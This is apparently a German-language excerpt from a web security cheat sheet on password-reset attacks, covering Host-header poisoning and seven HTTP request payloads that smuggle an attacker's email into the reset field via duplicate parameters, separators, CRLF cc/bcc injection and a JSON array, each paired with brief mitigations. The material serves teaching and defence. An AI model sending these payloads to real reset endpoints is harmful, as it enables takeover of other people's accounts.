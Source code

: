 ## **Passwort zurücksetzen Vergiftung**

* Angreifer können den Host-Header während Passwortzurücksetz-Anfragen manipulieren, um den Rücksetzlink auf eine bösartige Seite zu verweisen.
* **Auswirkungen**: Führt zu potenzieller Kontoübernahme durch das Leaken von Rücksetztokens an Angreifer.
* **Minderungsmaßnahmen**:
* Validieren Sie den Host-Header gegen eine Whitelist erlaubter Domains.
* Verwenden Sie sichere, serverseitige Methoden zur Generierung absoluter URLs.
* **Patch**: Verwenden Sie `$_SERVER['SERVER_NAME']`, um Passwortzurücksetzen-URLs zu konstruieren, anstatt `$_SERVER['HTTP_HOST']`.
* **Referenzen**:
* [Acunetix Artikel über Passwort zurücksetzen Vergiftung](https://www.acunetix.com/blog/articles/password-reset-poisoning/)

## **Passwort zurücksetzen durch Manipulation des E-Mail-Parameters**

Angreifer können die Passwortzurücksetz-Anfrage manipulieren, indem sie zusätzliche E-Mail-Parameter hinzufügen, um den Rücksetzlink umzuleiten.

* Fügen Sie die E-Mail des Angreifers als zweiten Parameter mit & hinzu.
```php
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
* Fügen Sie die Angreifer-E-Mail als zweiten Parameter mit %20 hinzu
```php
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
* Fügen Sie die Angreifer-E-Mail als zweiten Parameter mit | hinzu
```php
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
* Fügen Sie die E-Mail des Angreifers als zweiten Parameter mit cc hinzu
```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
* Fügen Sie die E-Mail des Angreifers als zweiten Parameter unter Verwendung von Bcc hinzu
```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
* Fügen Sie die Angreifer-E-Mail als zweiten Parameter mit , hinzu
```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
* Fügen Sie die Angreifer-E-Mail als zweiten Parameter im JSON-Array hinzu
```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```
* **Minderungsmaßnahmen**:
* E-Mail-Parameter serverseitig korrekt parsen und validieren.